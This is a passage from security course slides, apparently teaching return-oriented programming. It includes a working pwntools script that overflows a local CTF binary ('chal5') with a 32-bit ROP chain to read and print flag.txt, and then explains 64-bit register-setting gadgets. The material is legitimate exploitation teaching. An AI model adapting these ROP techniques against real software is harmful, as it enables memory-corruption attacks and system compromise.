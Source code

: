 7. Write a script
   ```python
   from pwn import *

   retaddr_offset = 92
   rop_chain = b'flag.txt'
   rop_chain += b'\x00' * (retaddr_offset - len(rop_chain))
   rop_chain += p32(0x80484d6) # read_file
   rop_chain += p32(0x8048568) # gadget: discard 3 stack
   rop_chain += p32(0x804a060) #   arg1: "flag.txt" == buf
   rop_chain += p32(0x804a060) #   arg2: buf
   rop_chain += p32(1024)      #   arg3: 1024 (len)
   rop_chain += p32(0x8048517) # print_data
   rop_chain += p32(0)         # dummy (next return)
   rop_chain += p32(0x804a060) #   arg1: buf

   p = process('./chal5')
   p.send(rop_chain)
   p.interactive()
   ```

</div>

---

## Code reuse attack - ROP: set register

<div class=twocolumn style="font-size: 0.8em">

- In **64bit** x86 architecture, we have another problem:
    - calling convension - the arguments (up to 6) are not passed through stack but through registers
      args: `rdi`, `rsi`, `rdx`, `rcx`, `r8`, `r9`, (stack)
- Solution: set register gadget
    - `pop rdi; ret`: set 1st argument (`rdi`)
    - `pop rsi; ret`: set 2nd argument (`rsi`)
- ROP chain for `func(arg1, arg2);`
  <img src="./figures/fig11.svg">
  